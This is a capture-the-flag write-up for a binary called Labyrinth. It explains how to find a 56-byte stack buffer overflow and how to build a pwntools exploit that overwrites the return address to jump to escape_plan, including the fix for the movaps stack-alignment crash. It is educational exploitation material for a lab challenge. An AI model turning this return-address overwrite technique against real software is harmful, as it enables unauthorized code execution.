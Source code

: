 # Labyrinth

We're given an 64-bit ELF called Labyrinth.

Firstly, i analyzed the program using `ida` to disassemble it. We can see a main function of this program.This program expects us to input `69` or `069` to get another user input.Otherwise, the profram will be exit.

![decompile](img/decompile.png)

#Find The Offset

Next, we'll check the buffer offset of this program.We can use `cyclic` in `pwngdb` to find the offset.

To overwrite the return address, we can fill the buffer with `56` byte followed by the destination address.We'll jump to `escape_plan` address cause it opens the flag.txt.

![offset](img/offset.png)


payload :

```
from pwn import *

context.binary = elf = ELF("./labyrinth", checksec=False)


if args.LOCAL:
    p = process(elf.path)
else:
    p = remote('94.237.122.241', 52656)

gdb.attach(p, gdbscript='')

buffer = b"A" * 56
escape = elf.sym['escape_plan']

pay = buffer
pay += p64(escape)

p.sendlineafter(b">> ", b"69")
p.sendlineafter(b">> ", pay)

p.interactive()
```


When i run the payload, the program crashses annd stop at `movaps` intrunction, it's caleed the movaps issue. 

`When the source or destination operand is a memory operand, the operand must be aligned on a 16-byte (0x10) boundary or a general-protection exception`


```
```
pwndbg> x/i $rip
=> 0x70f22b677693:      movaps XMMWORD PTR [rsp+0x40],xmm0
pwndbg>
```
```

#Stack  Alignment Fix

In order to align our stack, we can add a `ret` address, or use the address after the push intruction of `escape_plan` function.

```
Dump of assembler code for function escape_plan:
   0x0000000000401255 <+0>:     push   rbp
   0x0000000000401256 <+1>:     mov    rbp,rsp   <== we can use this or use the ret address
   0x0000000000401259 <+4>:     sub    rsp,0x10
   0x000000000040125d <+8>:     mov    edi,0xa
```

Now, it'work and we got the flag.

![flag](img/flag.png)

[solver](sv.py)






